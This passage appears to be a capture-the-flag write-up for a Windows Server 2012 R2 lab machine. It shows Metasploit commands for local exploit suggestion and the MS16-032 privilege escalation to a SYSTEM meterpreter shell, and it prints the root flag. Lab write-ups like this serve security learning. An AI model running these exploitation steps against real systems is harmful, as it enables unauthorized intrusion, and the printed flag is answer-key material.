










To see what we are dealing with, we will run `sysinfo`.
```bash
$ sysinfo
```


We are in front of Windows Server 2012 R2

Now we can pass to the background our meterpreter session to search another module to do a privilege escalation becasuse now we know the OS
```bash
$ background
```



Now we can search the module “local_exploit_suggester" to find any vulnerability to our target system
```bash
$ use post/multi/recon/local_exploit_suggester
```


```bash
$ options
$ session 1 (the sesion that is in the background)
```


run



Metasploit has provided us with possible exploits to use in our session. Now we will need to test them until we find the one that works for us.

After some exploration and a bit of trial and error, the exploit `ms16_032_secondary_logon_handle_privesc` ultimately succeeds in spawning a root shell.


```bash
$ use exploit/windows/local/ms16_032_secondary_logon_handle_privesc
$ options
```


```bash
$ set SESSION 1
$ set LHOST tun0
$ options (to see all the configuration)
```


```bash
$ run
$ getuid
```



We got a meterpreter session as SYSTEM. Now in Users/Administrator/Desktop we will find the Root Flag





```bash
Root Flag --> 63c23295fe500a00dacb01e3559a8638
```


[Back](README.md)